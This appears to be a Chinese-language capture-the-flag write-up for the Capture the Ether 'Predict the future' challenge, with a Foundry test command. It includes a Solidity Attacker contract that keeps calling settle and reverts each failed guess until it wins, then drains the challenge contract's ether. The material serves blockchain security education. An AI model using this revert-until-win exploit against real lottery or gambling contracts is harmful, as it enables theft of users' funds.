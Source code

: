 # Predict the future

## 题目描述

[原题链接](https://capturetheether.com/challenges/lotteries/predict-the-future/)

原题目要求 PredictTheFutureChallenge 合约里面的余额为 0。参与过程分成两步，第一步时锁定答案，第二步揭示答案。如果锁定的答案等于当前揭示答案是用 blockhash 以及 timestamp 通过 hash 生成的数，即可转移 2 ether 出去。

## 运行

**安装 Foundry**

根据[Foundry 官方文档](https://getfoundry.sh/)配置好运行环境。

**运行测试**

```sh
$ cd WTF-CTF

$ forge test -C src/Capture_the_Ether/Lotteries/Predict_the_future -vvv
```

## 功能简述

在 PredictTheFutureChallenge 合约中，锁定猜测 lockInGuess 和揭示答案 settle 分成了两步，并且要求 settle 的调用需要在 lockInGuess 两个区块之后。settle 如果执行成功，guesser 会被置为 address(0)，这样就无法再次调用 settle。

解决思路是，我们确实需要老老实实调用 lockInGuess 并转入一个 ether。但是在调用 settle 的时候，如果我们的 answer 不正确，我们需要能够 revert 这个 transaction，这样 guesser 不会被置为 address(0)，然后我们可以再次调用 settle，这样一直执行下去直到 answer 等于 guess。而且因为 answer 的空间是 0 - 10，每次尝试有 1/10 的成功概率，是具有可能性的。

Attacker 合约中，lockInGuess，我们先调用 PredictTheFutureChallenge 的 lockInGuess，设置一个空间内的数，比如 6。然后过了两个块后，我们可以调用 Attacker 的 attack，如果挑战失败，revert 整个 transaction。然后再次尝试，直到成功后将所有的余额发送到 balance。

```solidity
    function lockInGuess(uint8 n) external payable {
        if (msg.sender != owner) revert NotOwner();
        if (address(this).balance < 1 ether) revert ValueErr();
        
        challenge.lockInGuess{value: 1 ether}(n);
    }
    
    function attack() external {
        if (msg.sender != owner) revert NotOwner();

        challenge.settle();
    
        // if we guessed wrong, revert
        if (!challenge.isComplete()) revert GuessErr();
        // return all of it to EOA
        payable(tx.origin).transfer(address(this).balance);
    }
```
